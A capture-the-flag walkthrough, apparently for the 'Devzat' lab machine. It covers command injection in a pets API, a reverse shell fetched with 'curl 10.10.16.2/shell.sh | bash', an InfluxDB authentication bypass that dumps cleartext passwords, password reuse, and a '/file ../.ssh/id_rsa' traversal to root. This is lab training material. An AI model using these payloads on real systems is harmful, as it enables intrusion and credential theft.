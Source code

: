 # Devzat

---

## Enumeration & Foothold

- nmap TCP scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8000/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

- Found subdomain `pets`, using a dirscan on this subdomain found a git repo `/.git` and it contains the app source code
- Found code injection vulnerability in `main.go`, on the parameter `species` in the POST request to `/api/pet`, with payload `; <CODE>`
- Got a revshell with the payload:

```bash
curl 10.10.16.2/shell.sh | bash
```

- Found a private RSA key for SSH,

---

## Lateral Movement

- Need to go from `patrick` to `catherine`
- In devzat source code, found a hard-coded convo:

```go
   if strings.ToLower(u.name) == "patrick" {
		u.writeln("admin", "Hey patrick, you there?")
		u.writeln("patrick", "Sure, shoot boss!")
		u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
		u.writeln("patrick", "Cool :thumbs_up:")
		u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
		u.writeln("patrick", "Yes, sure. Am on it!")
		u.writeln("devbot", "admin has left the chat")
	} else if strings.ToLower(u.name) == "admin" {
		u.writeln("admin", "Hey patrick, you there?")
		u.writeln("patrick", "Sure, shoot boss!")
		u.writeln("admin", "So I setup the influxdb for you as we discussed earlier in business meeting.")
		u.writeln("patrick", "Cool :thumbs_up:")
		u.writeln("admin", "Be sure to check it out and see if it works for you, will ya?")
		u.writeln("patrick", "Yes, sure. Am on it!")
	} else if strings.ToLower(u.name) == "catherine" {
		u.writeln("patrick", "Hey Catherine, glad you came.")
		u.writeln("catherine", "Hey bud, what are you up to?")
		u.writeln("patrick", "Remember the cool new feature we talked about the other day?")
		u.writeln("catherine", "Sure")
		u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
		u.writeln("catherine", "Kinda busy right now :necktie:")
		u.writeln("patrick", "That's perfectly fine :thumbs_up: You'll need a password I gave you last time.")
		u.writeln("catherine", "k")
		u.writeln("patrick", "I left the source for your review in backups.")
		u.writeln("catherine", "Fine. As soon as the boss let me off the leash I will check it out.")
		u.writeln("patrick", "Cool. I am very curious what you think of it. See ya!")
		u.writeln("devbot", "patrick has left the chat")
```

- First, influxdb 1.7.5 is vulnerable to an authentication bypass [CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) and was able to dump the database, got users unencrypted clear-text creds:
- I forwarded both ports `8443` wich is the local devzat instance that has these hard-coded messages and the new feature `/file` and also port `8086` which the influxdb running locally.

```json
// [admin@127.0.0.1/devzat] $ select * from "user"

{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

- Catherine's password `woBeeYareedahc7Oogeephies7Aiseci` is reused for her user on the target machine, I can SSH in or `su catherine` with her password and get user.txt

---

## Privilege Escalation

- Logging in the chat app on port `8443` as `catherine` and now I have access to the new feature `/file`.
- To find the password that protects this feature, I searched for the backup location that they were talknig about and found 2 zip files, main and dev in  `/var/backups`, transferred them to my machine and did a `diff main dev` just like patrick suggested and got the password: `CeilingCatStillAThingIn2021?`

```bash
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
```

- At this point is simple, `/file ../.ssh/id_rsa`, got root's ssh private key, logged in as root, got root.txt

---
